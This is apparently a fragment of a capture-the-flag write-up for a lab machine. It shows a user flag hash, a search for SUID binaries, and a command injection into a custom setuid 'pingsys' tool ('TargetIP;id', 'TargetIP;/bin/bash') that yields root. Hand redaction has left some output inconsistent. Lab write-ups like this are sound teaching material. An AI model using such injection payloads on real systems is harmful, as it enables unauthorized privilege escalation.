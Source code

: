 <br>

<p>1.1. user.txt?<br>
<code>f4d491f280de360cc49e26ca1587cbcc</code></p>

<br>

```bash
[jacob@jacobtheboss /]$ find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```


```bash
[jacob@jacobtheboss /]$ /usr/bin/pingsys "TargetIP;id"
/usr/bin/pingsys "TargetIP;id"
PING TargetIP (TargetIP) 56(84) bytes of data.
64 bytes from TargetIP: icmp_seq=1 ttl=64 time=0.022 ms
64 bytes from TargetIP: icmp_seq=2 ttl=64 time=0.033 ms
64 bytes from TargetIP: icmp_seq=3 ttl=64 time=0.034 ms
64 bytes from TargetIP: icmp_seq=4 ttl=64 time=0.034 ms

--- 10.201.78.196 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.022/0.030/0.034/0.008 ms
uid=0(root) gid=1001(jacob) groups=1001(jacob) context=system_u:system_r:initrc_t:s0
```


```bash
[jacob@jacobtheboss /]$ /usr/bin/pingsys "TargetIP;/bin/bash"
/usr/bin/pingsys "TargetIP;/bin/bash"
PING TargetIP (TargetIP) 56(84) bytes of data.
64 bytes from TargetIP: icmp_seq=1 ttl=64 time=0.017 ms
64 bytes from TargetIP: icmp_seq=2 ttl=64 time=0.035 ms
64 bytes from TagetIP: icmp_seq=3 ttl=64 time=0.034 ms
64 bytes from TargetIP: icmp_seq=4 ttl=64 time=0.031 ms

--- TargetIP ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.017/0.029/0.035/0.008 ms
```
